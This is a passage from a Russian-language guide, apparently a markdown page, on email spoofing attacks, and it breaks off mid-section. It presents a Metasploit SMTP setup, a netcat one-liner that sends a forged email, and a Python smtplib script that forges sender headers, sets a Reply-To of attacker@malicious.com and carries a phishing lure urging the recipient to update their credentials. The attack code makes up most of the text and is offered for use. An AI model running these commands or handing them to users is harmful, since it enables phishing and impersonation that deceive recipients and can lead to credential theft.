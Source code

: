 ### 3. **msfconsole** (Metasploit Framework)

- **Описание**: Мощный инструмент для автоматизации атак, включая email spoofing.
- **Пример команды**:
  ```bash
  use auxiliary/server/smtp
  set MAILFROM spoofed@trusted.com
  set RHOST victim.example.com
  run
  ```
- **Разбор команды**:
  - `use auxiliary/server/smtp`: выбор модуля SMTP-сервера.
  - `set MAILFROM`: установка поддельного адреса отправителя.
  - `set RHOST`: указание целевого SMTP-сервера.
  - `run`: запуск модуля.

### 4. **bash + netcat**

- **Описание**: Использование bash и netcat для ручной отправки писем через SMTP.
- **Пример команды**:
  ```bash
  echo -e "HELO example.com\nMAIL FROM:<spoofed@trusted.com>\nRCPT TO:<victim@example.com>\nDATA\nSubject: Spoofed Email\n\nThis is a spoofed email.\n.\nQUIT" | nc smtp.example.com 25
  ```
- **Разбор команды**:
  - `echo -e`: передача последовательности SMTP-команд.
  - `HELO example.com`: идентификация клиента.
  - `MAIL FROM`: указание поддельного адреса отправителя.
  - `RCPT TO`: указание адреса получателя.
  - `DATA`: начало передачи тела письма.
  - `QUIT`: завершение соединения.
  - `| nc smtp.example.com 25`: отправка команд на указанный SMTP-сервер через порт 25.

## Практические примеры


### Пример 1: Сложная атака с использованием Python и подделкой заголовков

1. **Цель**: отправить письмо с поддельным адресом отправителя и манипуляцией заголовками для обхода базовых проверок.
2. **Код**:
   ```python
   import smtplib

   sender = "spoofed@trusted.com"
   recipient = "victim@example.com"
   subject = "Critical Security Update"
   body = "Please update your credentials immediately."

   # Подделка заголовков
   headers = f"""From: "Trusted Support" <{sender}>
   To: {recipient}
   Subject: {subject}
   Reply-To: attacker@malicious.com
   X-Mailer: CustomMailer 1.0
   """

   message = headers + "\n" + body

   with smtplib.SMTP('smtp.example.com', 25) as server:
       server.helo('malicious.com')
       server.sendmail(sender, recipient, message)
   ```
3. **Особенности**:
